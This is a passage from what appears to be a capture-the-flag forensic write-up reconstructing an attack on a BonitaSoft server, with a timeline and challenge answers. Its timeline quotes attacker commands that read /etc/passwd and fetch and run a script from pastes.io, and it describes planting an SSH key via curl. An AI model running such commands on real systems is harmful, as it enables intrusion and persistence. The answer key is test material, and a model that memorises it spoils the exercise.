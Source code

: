 #### Analysis

This script is using `curl` to read another file, `hffgra4unv` (Task 8), from
`pastes.io` (which matches up with the second log) and save it into the
`authorized_keys` file for the ubuntu user. Assuming the file is a public key,
and the attacker has the private key, they can now SSH into the system (Task
9).

The key is still available as well:

![image-20240422142512826](../img/image-20240422142512826.png)

The Mitre Att&ck Id for [Account Manipulation: SSH Authorized
Keys](https://attack.mitre.org/techniques/T1098/004/) is T1098.004 (Task 10).

## Results

### Timeline

Putting all that together makes the following timeline:

Time (UTC) | Description | Reference  
---|---|---  
15:31:27 | Credential stuffing attack starts (156.146.62.213) | PCAP  
15:35:05 | Successful login and upload / execute / delete `whoami` | PCAP  
15:37:32 | Credential stuffing attack stops | PCAP  
15:38:38 | Upload / execute / delete `cat /etc/passwd` | PCAP  
15:38:52 | Upload / execute / delete `wget https://pastes.io/raw/bx5gcr0et8` | PCAP  
15:38:53 | TLS log for `pastes.io` | Logs  
15:39:18 | Upload / execute / delete `bash bx5gcr0et8` | PCAP  
15:39:18 | TLS log for `pastes.io` | Logs  
  
### Question Answers

  1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

BonitaSoft

  2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

Credential Stuffing

  3. Does the vulnerability exploited have a CVE assigned - and if so, which one?
